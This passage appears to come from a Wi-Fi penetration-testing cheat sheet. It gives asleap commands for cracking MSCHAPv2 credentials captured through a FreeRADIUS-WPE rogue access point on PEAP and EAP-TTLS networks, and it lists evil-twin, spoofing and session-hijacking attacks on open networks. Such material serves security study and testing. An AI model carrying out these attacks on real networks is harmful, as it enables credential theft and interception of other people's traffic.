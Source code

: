 # After capturing the MSCHAPv2 credentials using FreeRADIUS-WPE:
```bash
asleap -C [challenge] -R [response] -W /path/to/wordlist.txt  
                 # Attempts to crack an MS-CHAPv2 challenge-response pair using a dictionary attack
                 # -C specifies the captured challenge (16 bytes, hex format)
                 # -R specifies the captured response (24 bytes, hex format)
                 # -W points to the wordlist file containing password guesses
```
If the password guessed from the wordlist matches the correct one, asleap will output the corresponding plaintext password.


## Cracking EAP-TTLS
The EAP-TTLS attack also leverages a rogue AP and FreeRADIUS-WPE setup to intercept tunneled authentication data, typically in the form of MSCHAPv2 challenge-response pairs. It is especially valuable when EAP-TTLS is deployed in enterprise environments without strict certificate validation. Much like with PEAP, once credentials are captured, they can be subjected to dictionary or brute-force attacks offline. This method is effective because it bypasses the encryption of the tunnel by exploiting trust relationships at the client level, particularly in mobile or BYOD scenarios where security profiles are less tightly managed.

# Extract the tunneled MSCHAPv2 challenge/response from FreeRADIUS-WPE logs
```bash
asleap -C [challenge] -R [response] -W /path/to/wordlist.txt  
                 # Cracks MS-CHAPv2 credentials by performing a dictionary attack
                 # -C is the challenge (16-byte hex string from the RADIUS exchange)
                 # -R is the response (24-byte hex string from the client)
                 # -W specifies the path to a wordlist to test potential passwords

```
Note: The cracking process is identical to PEAP/MS-CHAPv2 once the inner authentication is revealed,
because FreeRADIUS-WPE extracts the same challenge-response pairs that MS-CHAPv2 uses inside PEAP tunnels.


---


# Cracking Concepts

**Category:** CRACKING CONCEPTS
## NETWORK TYPE: Open (OPN) Networks
No encryption. Anyone can connect and sniff traffic (unless HTTPS is used).

```bash
Passive sniffing (e.g., airodump-ng, tcpdump)
ARP spoofing, DNS spoofing, session hijacking (e.g., ettercap, bettercap)
Evil twin or captive portal injection
```
